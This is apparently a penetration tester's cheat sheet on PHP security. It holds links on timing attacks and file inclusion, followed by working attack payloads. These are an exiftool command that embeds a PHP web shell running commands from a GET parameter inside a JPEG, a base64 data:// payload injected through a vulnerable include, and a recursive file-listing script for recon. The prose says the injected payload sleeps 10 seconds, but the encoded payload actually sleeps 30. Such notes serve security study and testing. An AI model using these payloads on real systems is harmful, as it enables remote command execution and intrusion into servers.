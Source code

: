 ### Security - PHP

## Timing Attacks
- https://paragonie.com/blog/2015/11/preventing-timing-attacks-on-string-comparison-with-double-hmac-strategy
- http://blog.ircmaxell.com/2014/11/its-all-about-time.html
- https://github.com/pentestmonkey/timing-attack-checker

## Inclusion
- http://php.net/manual/en/function.include.php
- Don't forget about the null byte! `%00`
- https://websec.wordpress.com/2010/02/22/exploiting-php-file-inclusion-overview/
- https://upshell.wordpress.com/2011/06/11/new-vulnerabilities-to-access-files-in-php/
- https://websec.io/2012/09/05/A-Silent-Threat-PHP-in-EXIF.html

### Inclusion with Images
Sometimes you may have an `include` but you can add arbitrary PHP files. There may however be a place to add images and you can embed php in an image which gets executed if the image is included.

```
exiftool -documentname='<?php echo system(isset($_GET["c"]) ? $_GET["c"] : "ls -lah"); ?>' profile.jpg
```




Sometimes PHP is so terribly configured you can inject your code into the inclusion. 
Here is an example of how you can pass a `sleep(10);` into a possible `include` which 
would cause the page load to be delayed by ~10s if the page did indeed and a vulernable 
input & include combo.

`index.php?file=data://text/plain;base64,PD9waHAgc2xlZXAoMzApOw==%00`

#### Recon
If you can inject your code into PHP includes, below is an example of a file system walker to list all files in the current directory.

```php
<?php function sc4nn3r($r){
echo $r.PHP_EOL;
if(is_file($r)||!is_dir($r))return;
$ds=scandir($r);
foreach($ds as$d){
  if ($d=='.'||$d == '..')continue;
  $p=$r.'/'.$d;
  sc4nn3r($p); 
 }
}; sc4nn3r('./');
```
... base64 Encodes to

`PD9waHAgZnVuY3Rpb24gc2M0bm4zcigkcil7CmVjaG8gJHIuUEhQX0VPTDsKaWYoaXNfZmlsZSgkcil8fCFpc19kaXIoJHIpKXJldHVybjsKJGRzPXNjYW5kaXIoJHIpOwpmb3JlYWNoKCRkcyBhcyRkKXsKICBpZiAoJGQ9PScuJ3x8JGQgPT0gJy4uJyljb250aW51ZTsKICAkcD0kci4nLycuJGQ7CiAgc2M0bm4zcigkcCk7IAogfQp9c2M0bm4zcignLi8nKTs=
`


